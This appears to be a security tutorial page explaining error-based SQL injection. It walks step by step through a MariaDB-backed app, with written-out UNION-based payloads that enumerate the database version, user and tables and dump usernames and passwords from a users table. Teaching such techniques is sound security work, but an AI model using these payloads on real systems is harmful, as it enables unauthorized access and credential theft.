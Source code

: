 ##Error-based SQL Injection

A type of **SQL Injection** attack which is performed based on the errors thrown by the database on the application. An attacker performs "Error-based SQL Injection" by tampering the user input with special characters like ',",\,) etc.On passing these special characters, the input will be placed in the backed SQL Query as it is. Hence, it breaks the syntax of thhe query and the database throws an error with details such as where the syntax broken and the rest of the query etc. These details can be used to extract the contents of the entire database based on the errors by fixing with the correct syntax. An attacker can even include the shells in the database whhich allows to compromise the web server.

#### SQL Queries to understand

To comment out a query need to use "--+"  
To identify number of columns use "order by 3"  
To combine all the columns and display the content use "union select 1,2,3 --+"  
To dump all the content in a table or column use group_concat() function
#### Steps to identify and exploit
  Step 1: To identify a vulnerability, need to append some special characters as shown  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/1.PNG)
  Step 2: Based on the error, we found it is a "MariaDB" database with a syntax error and needs to be fixed. It can be done with a comment tag whichh will ignore thhe rest of the content after this tag as shown below  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/2.PNG)
  Step 3: Query has been fixed, now we need to identify the number of columns in the database as shown  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/3.PNG)
  Step 4: As above we have an error since the number of columns can be more or less than 5 columns. So we need to brute forced to identify the number of columns. We can give a try for 3 columns as shown below  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/4.PNG)
  Step 5: We identified 3 columns in database, lets use "union" to see which value reflects on the screen to dump the data  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/5.PNG)
  Step 6: As shown above, no value is reflecting the application. Let's give a "Negative" Number to balance both sides to figure out the reflection values  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/6.PNG)
  Step 7: Successfully identified 2,3 are reflecting to dump data. So, we pass "@@version, user()" to enumerate the database version and the user with the query as "id=1' union select 1,@@version, user() --+" as shown  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/7.PNG)
  Step 8: Note it has shown the version and the user as intended. Let's enumerate the tables in it with a query as "id=1' union select 1,table_name,3 from information_schema.tables where table_schema=database()--+" as shown  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/8.PNG)
  Step 9: As we can see the table name is enumerated, lets dump all the tables as "id=1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+" as shown  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/9.PNG)
  Step 10: In the same way, we can dump all the username, passwords in the users as "id=1' union select 1,group_concat(username), group_concat(password) from users --+"  
  ![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/error/10.PNG)
  Step 11: In this way, we can dump entire content in the database